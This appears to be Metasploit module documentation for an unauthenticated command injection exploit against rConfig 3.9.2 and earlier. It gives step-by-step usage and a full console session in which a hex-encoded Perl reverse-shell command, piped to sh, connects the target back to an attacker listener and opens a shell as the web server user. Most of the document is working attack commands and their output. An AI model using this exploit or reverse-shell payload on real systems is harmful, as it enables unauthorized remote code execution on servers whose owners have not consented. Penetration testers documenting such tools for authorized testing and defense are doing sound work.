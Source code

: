## Description

  This module exploits an unauthenticated command injection vulnerability
  in rConfig versions 3.9.2 and prior. The `install` directory is not
  automatically removed after installation, allowing unauthenticated users
  to execute arbitrary commands via the `ajaxServerSettingsChk.php` file
  as the web server user.


## Vulnerable Software

  This module has been tested successfully on [rConfig](https://rconfig.com/)
  version 3.9.2 on CentOS 7.7.1908 (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/rconfig_install_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session


## Options

### TARGETURI

  The base path to rConfig install directory (default: `/install/`)


## Scenarios

  ```
  msf > use exploit/unix/webapp/rconfig_install_cmd_exec 
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set rhosts 172.16.191.131
  rhosts => 172.16.191.131
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set verbose true
  verbose => true
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > check

  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [+] 172.16.191.131:443 - The target is vulnerable.
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic (Unix In-Memory)
     1   Automatic (Linux Dropper)


  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set target 0
  target => 0
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set payload cmd/unix/reverse_perl
  payload => cmd/unix/reverse_perl
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Executing command: id
  [*] Response: uid=48(apache) gid=48(apache) groups=48(apache)
  [*] Executing command: /bin/echo -ne '\x70\x65\x72\x6c\x20\x2d\x4d\x49\x4f\x20\x2d\x65\x20\x27\x24\x70\x3d\x66\x6f\x72\x6b\x3b\x65\x78\x69\x74\x2c\x69\x66\x28\x24\x70\x29\x3b\x66\x6f\x72\x65\x61\x63\x68\x20\x6d\x79\x20\x24\x6b\x65\x79\x28\x6b\x65\x79\x73\x20\x25\x45\x4e\x56\x29\x7b\x69\x66\x28\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x7e\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x24\x45\x4e\x56\x7b\x24\x6b\x65\x79\x7d\x3d\x24\x31\x3b\x7d\x7d\x24\x63\x3d\x6e\x65\x77\x20\x49\x4f\x3a\x3a\x53\x6f\x63\x6b\x65\x74\x3a\x3a\x49\x4e\x45\x54\x28\x50\x65\x65\x72\x41\x64\x64\x72\x2c\x22\x31\x37\x32\x2e\x31\x36\x2e\x31\x39\x31\x2e\x31\x36\x35\x3a\x34\x34\x34\x34\x22\x29\x3b\x53\x54\x44\x49\x4e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x72\x29\x3b\x24\x7e\x2d\x3e\x66\x64\x6f\x70\x65\x6e\x28\x24\x63\x2c\x77\x29\x3b\x77\x68\x69\x6c\x65\x28\x3c\x3e\x29\x7b\x69\x66\x28\x24\x5f\x3d\x7e\x20\x2f\x28\x2e\x2a\x29\x2f\x29\x7b\x73\x79\x73\x74\x65\x6d\x20\x24\x31\x3b\x7d\x7d\x3b\x27'|sh
  [*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.131:35004) at 2019-10-29 11:48:59 -0400

  id
  uid=48(apache) gid=48(apache) groups=48(apache)
  uname -a
  Linux localhost.localdomain 3.10.0-1062.4.1.el7.x86_64 #1 SMP Fri Oct 18 17:15:30 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  pwd
  /home/rconfig/www/install/lib/ajaxHandlers
  ^C
  Abort session 1? [y/N]  y
  ""

  [*] 172.16.191.131 - Command shell session 1 closed.  Reason: User exit
  msf exploit(unix/webapp/rconfig_install_cmd_exec) > 
  ```

